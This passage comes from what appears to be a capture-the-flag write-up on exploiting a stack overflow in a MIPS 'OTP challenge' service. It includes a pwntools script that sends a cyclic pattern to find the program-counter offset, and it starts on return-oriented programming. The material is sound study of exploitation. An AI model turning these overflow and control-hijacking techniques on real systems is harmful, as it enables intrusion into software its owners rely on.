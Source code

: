 And if we populate the 12 remaining passwords with "A"*102 the return address
(`$ra` register) gets corrupted, which we can observe by taking the exit:

![](https://i.imgur.com/INggKTu.png)


### Exploitation ###


#### Controlling $pc ####

So we are now able to make the program crash. To know the exact offset of `$pc`,
I've used the De Bruijn pattern from `gef` and `pwntools`.

{% highlight python %}
if __name__ == "__main__":
    HOST, PORT = "localhost", 12234
    r = remote(HOST, PORT)
    r.recvuntil("Here's your OTP challenge : \n")
    chal = r.readline().strip()
    resp = validate(chal)
    r.sendline(resp)
    r.recvuntil("-------------------------------\n")

    log.info("poisoing buf[-1] with \\r")
    r.sendline("2")
    r.recvuntil('How many passwords do you want to store? : ')
    l = 13 # \r
    r.sendline(str(l))
    r.recvline()
    r.recvline()
    r.send('\n') # this will force passwords[0] to be overwritten with 0xA, making the password size length wrong

    log.info("filling up the stack")
    raw_input("attach to gdb now...")
    pattern = cyclic(2000, n=4)
    for i in range(12):
        r.send(pattern[i*102:i*102+102])

    r.interactive()
{% endhighlight %}

And we now know that the PC is controlled at offset 921, as we are on a Big
Endian architecture:

![](https://i.imgur.com/NYLt8XQ.png)


#### ROP-ing to a fixed area ####


So great, we can control `$ra`, and therefore call any location. But the MIPS ABI
uses registers (from `$a0` to `$a3`) to store parameters of function
calls so we need to control (at least some of) them.
